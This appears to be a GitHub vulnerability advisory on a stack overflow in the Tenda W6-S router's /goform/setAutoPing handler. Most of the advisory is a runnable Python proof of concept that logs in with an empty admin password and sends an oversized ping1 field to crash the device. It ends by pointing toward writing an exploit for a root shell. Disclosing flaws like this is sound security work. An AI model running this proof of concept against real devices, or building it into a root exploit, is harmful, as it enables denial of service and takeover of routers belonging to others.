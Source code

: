 # Tenda W6-S V1.0.0.4(510) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2627.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W6-S/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W6-S/setAutoPing/2.png)

In /goform/setAutoPing, when linkEn is 1, ping1 and ping2 will be spliced into v9 by sprintf. It is worth noting that there is no size check which leads to a stack overflow vulnerability.

## Poc

```python
import requests

target_url = 'http://192.168.10.105/login/Auth'

target_headers = {'Host' : '192.168.10.105',
'Content-Length' : '65',
'Accept' : '*/*',
'X-Requested-With' : 'XMLHttpRequest',
'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
'Origin' : 'http://192.168.10.105',
'Referer' : 'http://192.168.10.105/main.html',
'Accept-Encoding' : 'gzip, deflate',
'Accept-Language' : 'en-US,en;q=0.9',
'Cookie' : 'user=',
'Connection' : 'close'}
p1 = 'usertype=admin&password=&time=2022;7;6;14;9;6&username='

requests.post(target_url, headers = target_headers, data = p1, verify = False, timeout = 1)

target_url = 'http://192.168.10.105/goform/setAutoPing'

target_headers = {'Host' : '192.168.10.105',
'Content-Length' : '295',
'Accept' : '*/*',
'X-Requested-With' : 'XMLHttpRequest',
'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
'Origin' : 'http://192.168.10.105',
'Referer' : 'http://192.168.10.105/main.html',
'Accept-Encoding' : 'gzip, deflate',
'Accept-Language' : 'en-US,en;q=0.9',
'Cookie' : 'user=',
'Connection' : 'close'}

p2 = 'linkEn=1&ping1=' + 'a' * 0x3000
requests.post(target_url, headers = target_headers, data = p2, verify = False, timeout = 1)
```

After sending the poc, the router will crash, and finally we can write the exp to get the root shell
